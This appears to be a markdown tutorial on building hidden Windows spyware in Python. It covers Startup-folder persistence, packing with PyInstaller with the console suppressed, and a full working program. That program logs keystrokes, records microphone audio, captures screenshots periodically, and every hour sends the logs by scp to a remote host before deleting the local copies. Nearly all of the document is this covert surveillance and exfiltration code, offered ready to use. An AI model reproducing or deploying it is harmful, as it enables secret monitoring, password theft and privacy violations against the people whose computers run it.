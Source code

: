# Auto-run

This will discuss windows executables

you can do windows+R the type shell:startup

It will open C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Anything in this folder will run at boot



# Create simple python exe

Real malware isn't written in python lol but let's run with this

```
pip install pyinstaller
pyinstaller yourfile.py -F --onefile
```

# Make exe hidden

There will be a brief cmd popup whenever your script runs, very suspicious, let's remove it. 

There are many tutorials and many different ways and will probably change in future windows versions. 

A simple one in this case is add `--noconsole` to pyinstaller. 

# Recording audio

```
pip install pyaudio
```


```python
import pyaudio
import wave

def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for _ in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

record_audio(seconds=10, filename="output.wav")

# Final


```python
# scp ... connor@192.168.1.114:/home/connor/Documents/...

import threading
from pynput.keyboard import Key, Listener
import os
import pyaudio
import wave
from time import sleep, time
from PIL import ImageGrab

count = 0
keys = []

user = os.environ.get("USERNAME")
basedir = f"C:\\Users\\{user}\\Documents\\system\\log"

def cleanup():
    os.system(f"del /Q {basedir}\\audio")
    os.system(f"del /Q {basedir}\\ss")

for d in [basedir, f"{basedir}/audio", f"{basedir}/ss"]:
    if not os.path.exists(d):
        os.makedirs(d)

def handle_keys():
    def on_press(key):
        global keys, count
        keys.append(key)
        count += 1
        if (count >= 1):
            count = 0
            write_file(keys)
            keys = []

    def write_file(keys):
        with open (f"{basedir}/log.txt", "a") as f:
            for key in keys:
                k = str(key).replace("'","")
                if k.find("space") > 0:
                    f.write("\n")
                elif k.find("Key") == -1:
                    f.write(k)

    def on_release(key):
        return True #never release

    with Listener(on_press = on_press, on_release = on_release) as listener:
        listener.join()


def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for i in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

def handle_audio():
    while True:
        fname = f"{basedir}/audio/{int(time())}"
        record_audio(seconds=3500, filename=fname)

def handle_ss():
    while True:
        snapshot = ImageGrab.grab()
        save_path = f"{basedir}/ss/{int(time())}.jpg"
        snapshot.save(save_path)
        sleep(20*60)


def handle_send():
    while True:
        sleep(3600)
        success = os.system(f"scp -r {basedir} connor@192.168.1.114:/home/connor/Documents/logs > NUL 2> NUL")
        if success == 0:
            cleanup() # delete after sending
          
if __name__ =="__main__":
    t1 = threading.Thread(target=handle_keys)
    t2 = threading.Thread(target=handle_audio)
    t3 = threading.Thread(target=handle_send)
    t4 = threading.Thread(target=handle_ss)

    t1.start()
    t2.start()
    t3.start()
    t4.start()

    t1.join()
    t2.join()
    t3.join()
    t4.join()
```
```
